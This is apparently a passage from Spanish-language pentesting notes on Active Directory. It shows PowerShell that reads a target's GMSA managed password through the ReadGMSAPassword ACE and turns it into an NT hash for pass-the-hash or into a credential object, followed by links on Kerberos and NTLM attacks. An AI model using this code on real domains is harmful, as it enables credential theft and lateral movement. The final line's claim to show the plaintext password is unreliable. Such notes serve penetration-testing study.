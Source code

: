 ##### ReadGMSAPassword

Un atacante puede leer la contraseña GMSA para la cuenta que es aplicada la ACE.

```powershell
# Save the blob to a variable
$gmsa = Get-ADServiceAccount -Identity 'Target_Account' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'

# Decode the data structure using the DSInternals module
ConvertFrom-ADManagedPasswordBlob $mp
# Build a NT-Hash for PTH
(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword | ConvertTo-NTHash
# Alterantive: build a Credential-Object with the Plain Password
$cred = new-object system.management.automation.PSCredential "Domain\Target_Account",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
# Visualizar la contraseña en texto claro
ConvertTo-SecureString $mp -AsPlainText -Force
```

## Referencias

- [Top Five Ways I Got Domain Admin on Your Internal Network before Lunch (2018 Edition)](https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa).
- [NTLM relaying and Kerberos delegation](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/).
- [PowerView CheatSheet](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993).
- [Kerberoasting your way in](https://medium.com/@Shorty420/kerberoasting-9108477279cc).
- [Pentesting in the Real World: Group Policy Pwnage](https://www.rapid7.com/blog/post/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/).
- [Ejercicio GPP - HTB Active](https://github.com/srrequiem/SecNotes/blob/main/HTB/Boxes/Windows/1_Easy/Active/htb_active.md).
- [Attacking Kerberos - TryHackMe](https://tryhackme.com/room/attackingkerberos)
- [Pass-The-Ticket (PTT) attack in Mimikatz (and a Gotcha!)](https://medium.com/@t0pazg3m/pass-the-ticket-ptt-attack-in-mimikatz-and-a-gotcha-96a5805e257a)
- [AS-REP Roasting](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)
- [Kerberoasting Revisited](https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1)
- [Not A Security Boundary: Breaking Forest Trusts](https://blog.harmj0y.net/redteaming/not-a-security-boundary-breaking-forest-trusts/)
- [Kerberos Authentication Explained](https://www.varonis.com/blog/kerberos-authentication-explained)
- [Abusing Kerberos](https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf)
- [Kerberos & Attacks 101](https://www.redsiege.com/wp-content/uploads/2020/04/20200430-kerb101.pdf)
- [ReadGMSAPassword](https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword)
